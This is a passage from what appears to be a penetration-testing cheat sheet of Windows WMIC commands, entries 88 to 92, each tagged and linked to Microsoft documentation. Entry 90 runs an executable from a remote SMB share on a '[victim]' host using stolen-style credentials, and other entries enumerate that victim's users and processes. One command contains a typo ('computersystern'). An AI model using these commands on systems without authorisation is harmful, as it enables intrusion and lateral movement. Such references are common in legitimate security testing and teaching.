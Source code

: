 https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
__________
### 88. kill process
```
wmic process where name="[cmd]" call terminate
```
**- Windows,process management**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
__________
### 89. view logical shares
```
wmic logicaldisk get description,name
```
**- enumeration,Windows,filesystem**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
__________
### 90. execute command on remote host from remote smb share
```
wmic /node:[victim] /user:[domain]\[user] /password:[password] process call create "\\[host]\[share]\[exe]"
```
**- smb,Windows,remote command shell**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
__________
### 91. get logged in users from the remote host
```
wmic /node:[victim] computersystern get username
```
**- enumeration,user information,Windows**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
__________
### 92. list remote processes every second
```
wmic /node:[victim] process list brief /every:1
```
**- enumeration,Windows,process management**
#### References:

